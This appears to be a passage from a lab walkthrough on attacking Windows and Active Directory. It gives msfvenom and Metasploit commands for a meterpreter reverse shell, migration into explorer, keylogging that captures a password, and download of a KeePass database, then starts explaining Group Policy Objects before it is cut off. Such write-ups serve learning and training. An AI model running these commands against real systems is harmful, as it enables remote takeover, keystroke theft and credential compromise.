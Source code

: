 ```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT="Listening port" -f psh -o shell.ps1
```

Host a pyhton http server and download the shell.ps1 file from there.

```
sudo msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST "LISTENING IP"
set LPORT "LISTENING PORT"
exploit
```

```
ps | grep "explorer"

migrate "explorer PID here"

```

The `getuid` command should return the .local users and not the AD user.

```
meterpreter > keyscan_start

meterpreter > keyscan_dump
Dumping captured keystrokes...
keep<CR>
<SHIFT>Imreallysurenoonewillguessmypassword<CR>
```
Download the kdbx file located on documents and unlock it with the password you just captured.

```
meterpreter > download PasswordDatabase.kdbx 
```

## Exploiting GPOs

A GPO is a virtual collection of policy settings. Each GPO has a unique name, called a GUID. That's why if you try to read the contents of the SYSVOL directory, it won't make a lot of sense with all the random names.

Each Windows computer has a Local Policy Configuration. 
This contains several notable configurations such as:

- Application configuration for services such as the Firewall, Anti-Virus, and Applocker.
- Local Group membership such as the Administrator or Remote Desktop Users groups.
- Startup configuration such as scripts that should be executed.
- Security and protocol settings such as SMBv1 support.

### Group Policy Management

If you only have one Windows computer, it is easy to change the local policy configuration directly on the host. 
